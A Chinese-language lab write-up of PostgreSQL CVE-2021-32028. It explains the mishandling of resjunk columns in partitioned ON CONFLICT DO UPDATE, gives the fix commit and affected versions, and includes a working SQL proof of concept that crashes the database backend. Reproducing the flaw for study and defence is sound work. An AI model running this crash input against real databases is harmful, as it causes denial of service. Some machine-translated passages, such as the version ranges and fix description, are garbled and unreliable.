



# CVE-2021-32028 CWE-200 PostgreSQL DoS

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **Resjunk：**  PostgreSQL 中一种临时使用的列，通常出现在 查询计划 中的 表达式节点（如 `SELECT`、`UPDATE` 等），它们并不是目标表的实际列，而是用来处理中间计算或子查询结果的“垃圾”列（即不直接写入目标表的列）。在 SQL 查询执行过程中，`resjunk` 列可能包含 中间计算的值，比如子查询的结果、联合查询的合并数据等，这些列用于支持表达式的计算，但最终不会写入数据库表。

## 漏洞原理

PostgreSQL 在执行 `INSERT ... ON CONFLICT ... DO UPDATE` 时，当涉及到 多列表达式赋值 和 相关子查询 时，未正确处理分区表中的 resjunk 列。尤其在 非同构分区（即子分区列顺序不同）情况下，执行器会错误地把中间计算结果（如 `resjunk` 列）写入物理表中，导致内存越界读取或写入，进而可能导致 内存泄漏、崩溃或 数据泄露。

## 漏洞定位


其根源在于规划者与执行者关于 `INSERT ... ON CONFLICT DO UPDATE` 目标清单,主要涉及：

- `src/backend/optimizer/prep/preptlist.c::preprocess_targetlist()`：受影响版本过早使用通用的 `expand_targetlist(..., CMD_UPDATE, ...)` 覆盖 `onConflictSet`，插入列值并重新编号、重排条目；
- `src/backend/executor/execPartition.c::ExecInitPartitionInfo()`：为分区创建更新投影时，非同构分区的列映射会使用已重写的目标列表；
- `src/backend/executor/execExpr.c::ExecBuildUpdateProjection()` 和 `src/backend/executor/nodeModifyTable.c::ExecInitUpdateProjection()`：没有明确携带待更新列号及输入 tuple descriptor，因此 resjunk 值可能被当作物理列值处理。

```c
/* Vulnerable planning path */
if (parse->onConflict)
    parse->onConflict->onConflictSet =
        expand_targetlist(parse->onConflict->onConflictSet,
                          CMD_UPDATE,
                          result_relation,
                          target_relation);
```

当子分区列的顺序不同和 `DO UPDATE SET (col1, col2) = (subquery)` 生成额外的resjunk列,错误编号允许执行器从错误的槽读取数据。 固定延迟提取并明确通过更新的栏号;不再延长 `onConflictSet` 根据INSERT目标列表。

## 漏洞修复


升级到 PostgreSQL  9.6.22， 10.17， 11.12， 12.7， 13.3,或后来。 提交 `049e1e2edb06854d7cd9460c22516efaa165fbf8` 停止过早扩展 `onConflictSet`,并明确将更新的栏码和输入的Tuple描述符输入 `ExecBuildUpdateProjection()`,并为物理列顺序不同的分区保留正确的列映射。

升级前,避免任意允许INSERT/UPDATE访问带有非统一子栏布局的分区表,避免多栏 `ON CONFLICT DO UPDATE` 包含子序列的任务。 这些限制减少了接触,但并不涵盖所有规划师产生的重新连接布局。

## 影响范围


** 受影响的版本:** PostgreSQL：

- 9.6.0 改为 9.6.21
- 10.0 改为 10.16
- 11.0 改为 11.11
- 12.0 改为 12.6
- 13.0 改为 13.2

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 12.2，管理员为 postgres，密码为 postgres，已存在数据库 test，存在 PoC 代码 CVE-2021-32028-PoC.sql

```txt
CNA:NVD    Base Score:6.5 MEDIUM    Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:12.2:*:*:*:*:*:*:*
```



## 漏洞复现

1. 使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test ，并运行 PoC 代码。在 Step 3 后可以看到断开了连接。

   ```bash
   docker exec -it postgres-12.2 psql -U postgres -d test -f CVE-2021-32028-PoC.sql
   ```

   

2. 查看容器日志，可以看到PostgreSQL 后端进程因 signal 11（段错误，Segmentation Fault） 被终止

   ```bash
   docker logs postgres-12.2
   ```

   

## PoC分析

```sql
-- 该表使用 LIST 分区，按 a 列的不同值将数据分区
CREATE TABLE upsert_test (
    a   INT PRIMARY KEY,
    b   TEXT
) PARTITION BY LIST (a);

-- 创建分区
-- upsert_test_1 是 upsert_test 表的第一个分区，存储 a = 1 的数据
-- upsert_test_2 是第二个分区，但它的列顺序不同，存储 a = 2 的数据。由于列顺序不同，这个分区会影响后续操作中的列映射。
CREATE TABLE upsert_test_1 PARTITION OF upsert_test FOR VALUES IN (1);
CREATE TABLE upsert_test_2 (b TEXT, a INT PRIMARY KEY);
ALTER TABLE upsert_test ATTACH PARTITION upsert_test_2 FOR VALUES IN (2);

INSERT INTO upsert_test VALUES(1, 'Boo'), (2, 'Zoo');

-- 执行 INSERT ... ON CONFLICT ... DO UPDATE 操作
WITH aaa AS (SELECT 1 AS ctea, ' Foo' AS cteb) INSERT INTO upsert_test
  VALUES (1, 'Bar'), (2, 'Baz') ON CONFLICT(a)
  -- 多列赋值 及 相关子查询
  DO UPDATE SET (b, a) = (SELECT upsert_test.b||cteb, upsert_test.a FROM aaa) RETURNING *;
```

> **`WITH aaa AS (SELECT 1 AS ctea, ' Foo' AS cteb)`**是一个公共表达式（CTE），它定义了一个名为 `aaa` 的虚拟表，包含两列：`ctea`（值为 1）和 `cteb`（值为 `' Foo'`）。这个 CTE 后面会用在 `DO UPDATE` 部分。
>
> **`INSERT INTO upsert_test VALUES (1, 'Bar'), (2, 'Baz')`**：尝试插入 `(1, 'Bar')` 和 `(2, 'Baz')`。由于 `a = 1` 和 `a = 2` 已经存在于表中，这会触发 **`ON CONFLICT(a)`** 子句。
>
> **`ON CONFLICT(a) DO UPDATE`**：如果插入的数据与现有行发生冲突（即 `a` 的值已存在），则执行更新操作。这里，更新操作的内容是：
>
> - **`SET (b, a) = (SELECT upsert_test.b || cteb, upsert_test.a FROM aaa)`**：
>    这是一个 **多列赋值**，将 `b` 设置为 `upsert_test.b` 与 `cteb` 拼接的结果，`a` 维持不变。
>   - 由于是 **相关子查询**，它引用了表 `upsert_test` 本身，且将 `cteb` 列的值 `' Foo'` 拼接到现有的 `b` 列值上。
>   - **`SELECT upsert_test.b || cteb, upsert_test.a FROM aaa`** 结果会返回 `b || ' Foo'` 和原 `a` 值。
>
> **`RETURNING \*`**：返回被插入或更新的数据行。此语句会返回两行数据，显示更新后的结果。

这段代码展示了如何使用 **分区表** 和 **`ON CONFLICT` 冲突处理** 来执行 **更新操作**。由于 `upsert_test_2` 分区的列顺序与父表不同，**这可能会导致列映射问题**，最终触发内存错误或崩溃。

## 参考链接


[NVD - CVE-2021-32028](https://nvd.nist.gov/vuln/detail/CVE-2021-32028)

[Fix mishandling of resjunk columns in ON CONFLICT ... UPDATE tlists. · postgres/postgres@049e1e2](https://github.com/postgres/postgres/commit/049e1e2edb06854d7cd9460c22516efaa165fbf8#diff-b4b5b8d608188940693d755535d7ed551ea93ee3a141bbc2db7f3e7f83cd42af)
